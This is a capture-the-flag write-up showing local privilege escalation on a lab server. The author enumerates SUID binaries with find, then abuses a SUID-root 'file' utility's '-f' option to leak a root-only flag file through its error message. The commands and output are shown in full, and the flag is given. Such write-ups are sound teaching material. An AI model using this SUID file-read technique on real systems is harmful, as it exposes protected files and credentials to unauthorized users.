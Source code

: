 # Secure Unusual Iconical Dock writeup
Having got into the server, we see the **flag.txt** in home directory:

```bash
$ ls
flag.txt
```

But when we try to read it, we get:

```bash
$ cat flag.txt
cat: flag.txt: Permission denied
```

It means we don't have permissions to read the flag. Let's make sure:

```bash
$ ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Oct 10 18:05 .
drwxr-xr-x 1 root root 4.0K Oct 10 18:10 ..
-r-------- 1 root root   53 Oct 10 18:04 flag.txt
```

Accoring to **ls**, nobody except **root** can't read the flag. So, we have to escalate our privileges somehow. Googlin' the abbreviation (**S**ecure **U**nusual **I**conical **D**ock) leads us to the **SUID**. SUID - is an executable file permission, which makes gives its owner's permissions to everyone who run it. Here is the way to find these helpful binaries:

```bash
$ find / -type f -perm -4000 2>>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/file
```

Among other default SUID binaries we see quite unusual one - **file**. This utility provides an information about files. It possesses one helpful flag - "-f". It reads a list of files from provided file and analyses them all. And as we know if we try to read the file that doesn't exist, the program will throw an exception like this: `"cool.txt": No such file or directory`. Let's use this useful feature:

```bash
$ file -f flag.txt
li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}: cannot open `li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}' (No such file or directory)
```

P.S. `2>>/dev/null` is a simple trick that allows to hide errors (we need it because **find** prints all the 'Permission Denied's it faces, so our console would be spammed). In other words, it redirects `stderr` to the special device - **/dev/null**

Flag: `li2CTF{1nN3r_p34C3_4Lw4y5_l34D5_70__5ucc355}`
